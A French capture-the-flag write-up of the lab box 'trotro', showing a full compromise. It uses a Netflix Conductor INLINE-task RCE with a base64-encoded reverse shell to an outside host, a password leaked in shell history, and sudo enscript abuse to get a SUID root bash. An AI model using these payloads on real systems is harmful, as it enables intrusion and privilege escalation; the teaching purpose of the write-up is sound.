






> Compétition : **brCTF** — Box « trotro »

## Informations

- **Catégorie :** Web / Linux (Advanced, Rootable, Timed)
- **Difficulté :** Advanced
- **Points :** 300
- **Auteur du write-up :** 3ch0
- **Services :** `22/tcp` (SSH), `80/tcp` (nginx — site statique *Trotro*), `8080/tcp` (Apache Tomcat — **Netflix Conductor 3.15.0**)
- **Flag user :** `ETSCTF_71242c58b5c281e0dde1e12858425a89`
- **Flag root :** `ETSCTF_3433d4bd55e308368fa1b81673f0a47c`

> Box « Timed » : l'IP tourne (10.0.10.0, .17, .48…). Adapter `$IP` à l'IP affichée.

---

## 1. Reconnaissance

```bash
nmap -sC -sV -p- 10.0.10.0
```

```text
22/tcp   open  ssh      OpenSSH 8.4p1 Debian
80/tcp   open  http     nginx 1.18.0   (titre: Trotro, site statique)
8080/tcp open  http     Apache Tomcat  (titre: Netflix Conductor)
```

Le port 80 est une vitrine statique. Le vecteur est le port **8080 : Netflix Conductor**, un moteur d'orchestration de workflows, avec sa Swagger UI (`/swagger-ui/index.html`) et son **API REST ouverte** (`/api/...`).



---

## 2. API Conductor exposée

```bash
IP=10.0.10.0; B=http://$IP:8080/api
curl -s $B/metadata/workflow | head -c 300          # workflows existants -> JSON
curl -s http://$IP:8080/api/admin/config | head -c 400
```

```text
{"java.specification.version":"17", ... "java.class.path":"/opt/conductor-server-3.15.0-boot.jar" ...}
```

L'API répond et accepte l'enregistrement de définitions. Version **Conductor 3.15.0**, **Java 17**.

> **Vecteur :** la tâche `INLINE` de Conductor évalue du JavaScript via Nashorn. Depuis Nashorn on accède à l'API Java (`java.lang.Runtime`) → exécution de commandes.

---

## 3. RCE via tâche INLINE (Nashorn)

On enregistre un workflow contenant une tâche `INLINE` dont l'expression JS appelle `Runtime.exec`, puis on le démarre. Exemple de définition (`wf.json`) :

```json
{
  "name": "pwn_wf", "version": 1, "schemaVersion": 2,
  "ownerEmail": "a@a.com", "restartable": true,
  "tasks": [{
    "name": "pwn_inline", "taskReferenceName": "pwn_ref", "type": "INLINE",
    "inputParameters": {
      "evaluatorType": "javascript",
      "expression": "function e(){ java.lang.Runtime.getRuntime().exec(['/bin/bash','-c','<CMD>']); return {r:1}; } e();"
    }
  }],
  "outputParameters": {}
}
```

```bash
# enregistrer + démarrer
curl -s -X POST "$B/metadata/workflow" -H 'Content-Type: application/json' --data-binary @wf.json
curl -s -X POST "$B/workflow/pwn_wf"  -H 'Content-Type: application/json' -d '{}'
```

En plaçant un reverse shell (encodé base64 pour éviter les guillemets dans le JSON) comme `<CMD>`,

```bash
CMD="echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMTAuMC4yMzAiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJw== | base64 -d | bash"
```

on obtient un shell en tant que **BRCTF**.

```text
BRCTF@trotro:/opt$ id
uid=1000(BRCTF) gid=1000(BRCTF) groups=1000(BRCTF)
```

> Note pratique : un `bash -i` lancé par Java n'a pas de TTY (shell muet). Stabiliser avec `python3 -c 'import pty;pty.spawn("/bin/bash")'` côté cible, puis `stty raw -echo; fg` côté Kali.



---

## 4. Flag user

```text
BRCTF@trotro:~$ ls -la /home/BRCTF
-rw-r--r-- 1 root root 0 ... ETSCTF_71242c58b5c281e0dde1e12858425a89
```

**user :** `ETSCTF_71242c58b5c281e0dde1e12858425a89` (le flag est le nom du fichier, 0 octet).



---

## 5. Credentials dans l'historique shell

```bash
cat ~/.bash_history
```

```text
...
mysql -u brctf -p'Ch4rly_2026_y3_Hot'  -e "show databases;"
mysql -u brctf -p'Ch4rl3y_2026_y3_Hot' -e "show databases;"
mysql -u brctf -p'Ch4rley_2026!_y3_Hot' -e "show databases;"
...
sudo -l
```

Le `.bash_history` fuit un mot de passe testé plusieurs fois : **`Ch4rl3y_2026_y3_Hot`**. Il est réutilisé comme mot de passe du compte `BRCTF` (réutilisation de credential).



---

## 6. Privesc — `sudo enscript`

Avec le mot de passe, `sudo -l` répond :

```text
User BRCTF may run the following commands on trotro:
    (ALL : ALL) PASSWD: /usr/bin/enscript
```



`enscript` (convertisseur texte→PostScript) est sur GTFOBins : son option **`--filter`** exécute une commande/un script sur chaque fichier d'entrée. Lancé via `sudo`, ce filtre tourne en **root**.

```bash
cat > /tmp/x.sh <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
chmod +x /tmp/x.sh

sudo /usr/bin/enscript --filter=/tmp/x.sh -o /dev/null /dev/null
```

Le filtre root crée un `/bin/bash` **SUID root**. On l'exécute en conservant les privilèges :

```text
BRCTF@trotro:~$ /tmp/rootbash -p
rootbash-5.1# id
uid=1000(BRCTF) gid=1000(BRCTF) euid=0(root) groups=1000(BRCTF)
```



---

## 7. Flag root

```text
rootbash-5.1# ls -l /root
-rw-r--r-- 1 root root 0 ... ETSCTF_3433d4bd55e308368fa1b81673f0a47c
```

**root :** `ETSCTF_3433d4bd55e308368fa1b81673f0a47c`

---

## Récapitulatif de la chaîne d'exploitation

1. **nmap** → port 8080 = Netflix Conductor 3.15.0 (API REST ouverte).
2. Tâche **INLINE** (JS Nashorn) → `java.lang.Runtime.exec` → **RCE** en `BRCTF`.
3. Flag **user** dans `/home/BRCTF`.
4. **`.bash_history`** → mot de passe réutilisé `Ch4rl3y_2026_y3_Hot`.
5. `sudo -l` → `/usr/bin/enscript` autorisé.
6. **GTFOBins enscript `--filter`** → script exécuté en root → `bash` SUID → **root**.

> **Concept clé :** trois erreurs enchaînées. (1) Une **API d'orchestration exposée** (Conductor) dont les tâches INLINE évaluent du JavaScript sans bac à sable — Nashorn donne accès à `java.lang.Runtime`, donc RCE : ce genre de moteur ne doit jamais être joignable sans authentification. (2) Un **secret dans `.bash_history`** : taper un mot de passe en argument (`-p'...'`) le grave dans l'historique, et il était réutilisé pour le compte système. (3) Un **GTFOBins** : `sudo` sur un binaire qui sait exécuter des commandes (`enscript --filter`, comme `vi`, `less`, `awk`, `find`…) équivaut à donner root. Pour identifier ces binaires détournables, le réflexe est [gtfobins.github.io](https://gtfobins.github.io).

---

***— 3ch0***
